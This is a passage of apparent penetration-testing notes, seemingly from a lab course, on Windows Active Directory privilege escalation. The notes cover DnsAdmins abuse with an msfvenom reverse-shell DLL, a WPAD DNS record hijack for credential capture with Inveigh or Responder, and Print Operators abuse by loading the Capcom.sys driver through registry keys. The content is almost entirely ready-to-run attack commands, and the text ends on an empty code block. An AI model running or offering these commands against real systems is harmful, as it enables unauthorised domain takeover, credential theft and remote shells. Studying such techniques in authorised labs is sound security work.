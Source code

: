 ```
sc stop dns
sc start dns
```

### Confirming Group Membership
```
net group "Domain Admins" /dom
```
https://medium.com/@parvezahmad90/windows-privilege-escalation-dns-admin-to-nt-authority-system-step-by-step-945fe2a094dc

For a reverseshell use this payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.214 LPORT=4444 --platform windows -f dll > netsec.dll
```
## Mimilib
http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

## Creating a WPAD Record
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
```
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
Then use inveigh or responder

# Print Operators Group
Run CMD as Admin
### Required tools
```
EnableSeLoadDriverPrivilege.cpp
Capcom.sys driver 
```
## Add Reference to Drive
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
## Verify the driver is not loaded
```
.\DriverView.exe /stext drivers.txt
```
```
cat drivers.txt | Select-String -pattern Capcom
```
## Verify Privledge is enabled
```
EnableSeLoadDriverPrivilege.exe
```
## Verify the driver
```
.\DriverView.exe /stext drivers.txt
```
```
```
